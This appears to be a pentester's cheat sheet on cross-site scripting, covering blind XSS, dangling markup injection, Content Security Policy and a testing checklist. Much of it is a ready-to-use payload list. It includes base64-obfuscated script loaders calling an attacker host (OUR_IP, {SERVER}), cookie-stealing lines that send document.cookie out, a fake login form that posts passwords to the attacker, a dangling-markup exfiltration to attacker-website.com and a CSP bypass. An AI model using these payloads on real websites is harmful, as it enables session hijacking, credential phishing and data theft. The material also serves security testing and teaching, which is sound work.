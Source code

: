 # Cross-Site Scripting
- [Blind XSS](#blind-xss)
- [Dangling Markup Injection](#dangling-markup-injection)
- [Content Security Policy (CSP)](#content-security-policy-csp)
- [Testing](#testing)


> [!NOTE]
> XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).


## Blind XSS
- A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

    - Contact Forms
    - Reviews
    - User Details
    - Support Tickets
    - HTTP User-Agent header

- Payloads trigger Blind XSS:
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```javascript
<script src='http://OUR_IP'></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

'"><svg onload="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

# More Advanced Payloads
<!-- Image tag -->
'"><img src="x" onerror="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- Input tag with autofocus -->
'"><input autofocus onfocus="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- In case jQuery is loaded, we can make use of the getScript method -->
'"><script>$.getScript("{SERVER}/script.js")</script>

<!-- Make use of the JavaScript protocol (applicable in cases where your input lands into the "href" attribute or a specific DOM sink) -->
javascript:eval(atob("Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=="))

<!-- Render an iframe to validate your injection point and receive a callback -->
'"><iframe src="{SERVER}"></iframe>

<!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
<base href="{SERVER}" />

<!-- Make use of the meta-tag to initiate a redirect -->
<meta http-equiv="refresh" content="0; url={SERVER}" />

<!-- In case your target makes use of AngularJS -->
{{constructor.constructor("import('{SERVER}/script.js')")()}}

```

- Grab the cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- **Phishing**
    - Login form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Dangling Markup injection
- Dangling Markup Injection
    - It's a technique hackers use to grab sensitive data from websites in cases where a full-fledged cross-site scripting (XSS) attack isn't an option.

- **How Does It Work?**
    - Imagine a website takes some user input and includes it directly in its HTML code, like this: `<input type="text" name="input" value="USER DATA HERE">`

    - If regular XSS is blocked (due to filters or security policies), the attacker might use dangling markup. They inject something like this: `"><img src='//attacker-website.com?`

    - It begins defining a `src` (source) attribute but leaves it incomplete (or "dangling").
    - The browser will keep looking for where the attribute ends, and during this process, it may accidentally include part of the webpage's response as part of the URL.
    - Anything following the injection point in the webpage's response, like CSRF tokens or user data, might be sent to the attacker's server.

## Content Security Policy (CSP)
- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. 
- It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

- To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

```javascript
# Directive will only allow scripts to be loaded from the same origin as the page itself: 
script-src 'self'
# Directive will only allow scripts to be loaded from a specific domain:
script-src https://scripts.normal-website.com
```

- CSP also provides two other ways of specifying trusted resources:
    1. The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.

    2. The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.


- **Bypassing CSP with policy injection**
    - You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. 
    - Usually, this `report-uri` directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.
    - `https://WEBSITE/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'`

## Testing 
- [ ] Check for any reflection

- [ ] XSS context is inside a quoted string literal
    - [ ] `'-alert(document.domain)-'`
    - [ ] `';alert(document.domain)//`

- [ ] Hidden inputs
    - [ ] Check for href in canonical link tag `<link rel="canonical" href='http://WEBSITE/?'accesskey='x'onclick='alert(1)'/>`
    - [ ] Check forms `<input type="hidden" accesskey="x" onclick="alert(1)">`

- [ ] Check for CSTI (Angularjs, Vuejs)
- [ ] Check for DOM XSS (using DOM invader)


- [XSS Filter bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md#bypass-using-bom)



- **Resources** 
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
    - [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
